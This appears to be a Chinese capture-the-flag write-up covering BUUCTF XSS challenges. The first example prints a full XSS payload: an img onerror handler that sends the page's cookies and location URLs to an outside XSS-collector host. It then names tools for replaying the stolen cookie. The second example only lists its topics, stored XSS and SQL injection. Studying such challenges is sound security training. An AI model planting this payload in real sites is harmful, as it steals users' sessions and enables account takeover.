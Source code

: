 ## 例题1  **BUU XSS COURSE 1**
使用buuctf的xss Platform提供的代码构造payload:

> <img src="11111" onerror="(function(){(new Image()).src='http://xss.buuoj.cn/index.php?do=api&id=PxBBHs&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"/>

工具：
[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg)或[brupsuite](https://portswigger.net/burp)修改请求的cookie

---
## 例题2 **[CISCN2019 华东北赛区]Web2**
- 考察点：储存型 XSS 与过滤绕过、sql注入

---
![](img/web2-xss-1.png)

---